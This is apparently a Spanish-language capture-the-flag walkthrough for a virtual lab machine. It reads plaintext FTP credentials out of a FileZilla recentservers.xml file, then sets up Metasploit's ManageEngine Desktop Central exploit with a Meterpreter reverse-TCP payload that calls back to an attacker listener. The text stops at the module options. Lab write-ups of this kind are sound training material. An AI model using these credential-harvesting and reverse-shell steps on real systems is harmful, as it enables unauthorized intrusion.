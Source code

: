 ```bash
☁ enigma  cd rompeme
☁  rompeme  ll
total 8,0K
-rw-r--r-- 1 plugg plugg 614 mar  8  2019 IRC.log
-rw-r--r-- 1 plugg plugg 555 mar  8  2019 recentservers.xml
```

```bash 
☁  rompeme  cat recentservers.xml -l xml
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: recentservers.xml
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="UTF-8"?>
   2   │ <FileZilla3 version="3.35.2" platform="windows">
   3   │     <RecentServers>
   4   │         <Server>
   5   │             <Host>SantaPrisca.virtual</Host>
   6   │             <Port>21</Port>
   7   │             <Protocol>0</Protocol>
   8   │             <Type>0</Type>
   9   │             <User>perdicion</User>
  10   │             <Password>KingSnake</Password>
  11   │             <Logontype>2</Logontype>
  12   │             <TimezoneOffset>0</TimezoneOffset>
  13   │             <PasvMode>MODE_DEFAULT</PasvMode>
  14   │             <MaximumMultipleConnections>0</MaximumMultipleConnections>
  15   │             <EncodingType>Auto</EncodingType>
  16   │             <BypassProxy>0</BypassProxy>
  17   │         </Server>
  18   │     </RecentServers>
  19   │ </FileZilla3>

```
Podemos encontrar un usuario y una contraseña útiles `User: perdicion` `Password: KingSnake`



### Manage Desktop Central
En nuestra fase de reconocimiento podremos ver que tenemos una vulnerabilidad llamada "ManageEngine" para ello haremos uso de `metasploit-framework`.

```msf6 exploit(windows/http/manageengine_connectionid_write) > options

Module options (exploit/windows/http/manageengine_connectionid_write):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8020             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path for ManageEngine Desktop Central
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.5         yes       The listen address (an interface may be specified)
```